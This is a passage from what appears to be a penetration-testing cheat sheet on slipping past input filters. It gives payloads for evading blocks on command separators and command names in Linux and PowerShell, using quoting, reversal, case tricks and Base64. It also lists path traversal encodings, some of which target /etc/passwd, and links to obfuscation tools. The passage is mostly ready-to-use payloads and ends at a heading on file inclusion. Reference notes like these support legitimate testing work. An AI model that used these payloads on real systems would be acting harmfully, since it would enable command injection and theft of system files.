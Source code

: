 **Bypassing `;` blacklisting**

 - Using `${LS_COLORS:10:1}` in Linux (Substring)
 - Using `$(tr '!-}' '"-~'<<<:)` in Linux (Character shifting)

**Bypassing `|` blacklisting**

 - Using `<<<` and a subshell in Linux - e.g.: `grep${IFS}root<<<$(cat${IFS}${PATH:0:1}etc${PATH:0:1}passwd)`

 **Bypassing command blacklists**

 - Adding aquotation marks `w"h"o"am"i` or `w'h'o'am'i`
 - Adding the positional character operator `who$@ami` (Linux only)
 - Adding the `\` character `w\ho\ami` (Linux only)
 - Adding the `^` character - e.g.: `who^ami` (Windows only)
 - Using mixed case `wHoAmI` (Windows only)
 - Using mixed case `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` or `$(a="WhOaMi";printf %s "${a,,}")` (Linux only)
 - Using reversed commands - e.g.: `$(rev<<<'imaohw')` (Linux only)
 - Using reversed commands - e.g.: `iex "$('imaohw'[-1..-20] -join '')"` (Windows Powershell only)
 - Using encoding - e.g. Base64: `bash<<<$(base64 -d<<<d2hvYW1p)` (Linux Only)
 - Using encoding - e.g. Base64: `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` (Windows Powershell only)  
   ❗❗❗ Powershell use the characterset UTF-16LE and not UTF-8 ❗❗❗  
   Create the correct Base64 string on Linux: `echo -n "whoami" | iconv -f utf-8 -t utf-16le | base64`

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.

For more see: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses

Useful tools:

 - https://github.com/Bashfuscator/Bashfuscator
 - https://github.com/danielbohannon/Invoke-DOSfuscation


## Directory travesal

**Overcome filtering:**

  1. use `....//` to overcome removal of `../` from parameters
  2. use `....\/` to overcome removal of `../` from parameters
  3. use `....////` to overcome removal of `../` from parameters
  4. URL encode `../` into `..%2F` or `%2E%2E%2F`

Try to use 

 - `\` instead
 - `%252F` (double URL encoding)
 - `%25252F` (tripple URL encoding)
 - `%f0%80%ae%f0%80%ae%f0%80%afetc%f0%80%afpasswd` (overlong UTF-8 encoding for /etc/passwd)

## Local File Inclusion (LFI) / Remote File Inclusion (RFI)
